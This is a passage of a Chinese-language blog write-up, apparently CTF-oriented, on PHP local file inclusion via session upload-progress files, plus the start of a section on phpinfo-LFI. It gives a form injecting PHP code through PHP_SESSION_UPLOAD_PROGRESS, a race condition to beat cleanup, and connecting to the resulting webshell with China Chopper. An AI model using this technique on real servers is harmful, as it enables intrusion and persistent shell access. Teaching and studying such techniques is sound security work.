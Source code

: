 我的表单：
 
```
<form action="http://47.97.221.96:23333" method="post" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" vaule="<?= phpinfo(); ?>" />
    <input type="file" name="file1" />
    <input type="file" name="file2" />
    <input type="submit" />
</form>
```
 
  
但是需要注意的是，cleanup是on，所以这里我用了条件竞争，一遍疯狂发包，一遍疯狂请求
 
最后得到：
 
  
![][2]
 
  
![][3]
 
最后可以在/app/下找到写入的shell，随即用菜刀连接即可
 
 
 
### 注意事项 
 
```
session.upload_progress.cleanup => On => On
```
 
该选项作用官方手册的说明为
 
```
Note that if you run that code and you print out the content of $_SESSSION[$key] you get an empty array due that session.upload_progress.cleanup is on by default and it  cleans the progress information as soon as all POST data has been read.
```
 
意思也很简单，如果你在你的session中没有获取到
 `session.upload_progress`的数据，是因为cleanup开启，他将在上传完成的瞬间清除数据
 
所以针对方法也很简单，因为是上传完毕后才会清除，那么若目标网站开启，我们只需要进行条件竞争，进行包含获取shell即可
 
## phpinfo-LFI 
 
### 前言 
 
LFI with PHPInfo是国外研究员在2001年公布的本地文件包含利用方法，但是在国内兴起较晚，在CTF中非常少见
 
我也是前一段时间才知道有这个小技巧(= =还是太菜了！)
 
### 定义 
 
顾名思义，LFI即文件包含，而这和phpinfo有什么关系？
 
关系就在于以上传文件的方式请求任意PHP文件，服务器都会创建临时文件来保存文件内容
 

[0]: https://img2.tuicool.com/nIFNNr6.jpg 
[1]: https://img0.tuicool.com/2iaY7rb.jpg 
[2]: https://img2.tuicool.com/Yfiqqmz.jpg 
[3]: https://img1.tuicool.com/fqee6ji.jpg 
